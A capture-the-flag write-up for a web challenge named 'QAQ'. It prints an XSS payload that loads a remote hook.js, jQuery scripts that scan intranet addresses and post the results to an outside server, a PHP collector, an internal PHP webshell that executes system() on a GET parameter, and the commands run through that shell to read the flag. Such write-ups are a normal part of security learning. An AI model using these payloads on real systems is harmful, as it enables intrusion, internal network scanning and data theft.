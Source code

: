 # Writeup for QAQ (WEB) (350)

> Solves: 16
> 
> web
> 
> http://104.199.132.251:80
> 
> hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!
> 
> hint2: CORS headers
  
We are given a following web interface:

![Screenshot_1.png](Screenshot_1.png)

After submitting form, we see a summary of submission, so we can test XSS prevention bypass. 
(Note, that this alert was not in XSS payload, it was just an element of response):

![Screenshot_2.png](Screenshot_2.png)

We crafted the following xss payload: 

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

It successfully appends the code to body tag:
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
allowing us to execute any unrestricted javascript code, from our external server.
First we confirmed, that the file has been downloaded (read) by admin (probably BOT).

As the attached file has been BeEF (The Browser Exploitation Framework Project) [hook.js](hook.js), we spend some time playing with BeEF itself. It turned out, that the bot visits the site and is disconnected after a short time (probably 5 seconds).

Hint `Secret in intranet` prompted us to scan hosts in BeEF, so we got:

```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```

After that, we checked IP nearest to found hosts:

(Note, that the comment payload was still the same, we modified only code in our server's hook.js)
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```

Source of server observer code (http://1.2.3.4/app_dev.php):
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```


We had response from `172.17.0.2` that looked promising. Next step was to check, what has been there.

Another version of hook.js:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```

Gave us the response:

```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```

Yup- turned out, that we had php shell from `$_GET[c]`.

Yet another version of hook.js:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=ls", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```

gave us response:
```
fl4g
index.php
index.php
```

And finally:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```


returned the flag.